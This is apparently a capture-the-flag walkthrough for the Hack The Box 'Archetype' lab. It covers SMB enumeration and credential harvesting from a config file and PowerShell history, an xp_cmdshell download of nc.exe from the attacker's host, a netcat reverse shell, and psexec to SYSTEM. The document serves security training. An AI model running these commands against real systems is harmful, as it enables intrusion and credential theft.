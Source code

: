 # Archetype

Assign the IP address of the Archetype machine to an environment variable:
```export IP=10.10.10.27```

Scan the Archetype machine:
**-sC** for a script scan using the default scripts
**-sV** for version detection
**-Pn** disable host discovery (we already know the host is up)
```nmap -sC -sV -Pn $IP```

**Open Ports**
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
smb running on ports 135/139/445
SQL server running on 1433
computer name: ARCHETYPE
smb security mode:
	- account_used: guest
	- authentication_level: user
```
It looks like SMB is running on ports **135/139/445** as well as a SQL server instance running on port **1433**. Also, it looks like the nmap scan discovered that the smb security mode is using guest access.
Let's list the available SMB shares on the target:
```smbclient -N -L ////$IP//```

**SMB shares**
```
    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
```

The backups share looks interesting, let's attempt to access the backups SMB share:
```smbclient //$IP/backups```
```
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8256400 blocks available

```
Let's download the **prod.dtsConfig** and have a look at it.
```smb: \> get prod.dtsConfig```
```
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
```
Back on our Kali machine, let's print the contents of the file we just got:
```cat prod.dtsConfig```

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Let's attempt to connect to the SQL server using the credentials found in the prod.dtsConfig file:
```impacket-mssqlclient sql_svc:M3g4c0rp123@$IP -windows-auth```
```
SQL >
```

This is great for an initial foothold, but we need to do some privilege escalation because this user doesn't have administrative privileges. Because we're able to execute commands on the target machine using xp_cmdshell via the SQL connection, let's try to get netcat onto the target machine so we can initiate a reverse shell.

Copy the nc.exe from the windows-resources folder on Kali to my home folder:
```cp /usr/share/windows-resources/binaries/nc.exe .```

Start a python3 web server in the current folder to host the nc.exe file:
```python3 -m http.server 80```
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine, download the nc.exe file using xp_cmdshell, wget, and the previous mssqlclient connection. We're going to put it into the **%TEMP%** folder:
```xp_cmdshell powershell wget http://10.10.17.159/nc.exe -OutFile %TEMP%\nc.exe -UseBasicParsing```
```
10.10.10.27 - - [27/Jun/2021 21:57:14] "GET /nc.exe HTTP/1.1" 200 -
```

Start a nc listener on my Kali machine on port **4444** to listen for a reverse shell connection:
```sudo nc -lvnp 4444```

Change directory to **C:\Users\sql_svc\Desktop** and print the **user.txt** for the user flag:
```cd C:\users\sql_svc\Desktop```
```more user.txt```
```
3e7b102e78218e935bf3f4951fec21a3cd
```

From the target machine, use xp_cmdshell once again to execute the nc.exe file we just put onto the target machine to connect to my Kali machine on port **4444**:
```xp_cmdshell powershell "%TEMP%\nc.exe -nv 10.10.17.159 4444 -e cmd.exe"```
```
C:\Windows\system32>whoami
whoami
archetype\sql_svc
```

By poking around for the powershell history file, we find it in the default directory:
```dir/s *history.txt```
```
c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

The following details are contained within the history file:
```more ConsoleHost_history.txt```
```
net.exe use T: \\Archetype\backups **/user:administrator MEGACORP_4dm1n!!**
```

It looks like someone is using an Administrator account to map the SMB share, and we just got some potential admin credentials! Let's try them out back on our Kali machine with impacket's psexec.
```impacket-psexec administrator@$IP```
```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file fzsGgOsb.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service dMzL on 10.10.10.27.....
[*] Starting service dMzL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```
```C:\Windows\system32>whoami```
```
nt authority\system
```
Boom! Well done! Now we just need to find the root/system flag, it's generally in the Desktop folder for the respective user/system account:
```c:\Users\Administrator\Desktop>more root.txt```
```
b91ccec3305e98240082d4474b848528
```

